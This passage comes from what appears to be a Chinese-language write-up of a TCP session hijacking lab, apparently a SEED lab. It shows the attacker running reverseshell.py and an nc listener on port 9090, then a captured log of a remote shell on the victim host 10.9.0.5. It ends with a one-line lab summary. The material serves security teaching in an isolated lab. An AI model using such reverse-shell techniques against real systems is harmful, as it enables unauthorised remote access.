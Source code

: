运行程序：

```shell
attacker-10.9.0.1$ reverseshell.py
```

可以看到，成功拿到 victim 的 shell：

```shell
attacker-10.9.0.1$ nc -lnv 9090
Listening on 0.0.0.0 9090
Connection received on 10.9.0.5 42462
seed@22c45e0a11e6:~$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
70: eth0@if71: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:09:00:05 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.9.0.5/24 brd 10.9.0.255 scope global eth0
       valid_lft forever preferred_lft forever
```

## 实验总结

本实验需要分清到底劫持的哪个报文，剩下的工作就很简单了。
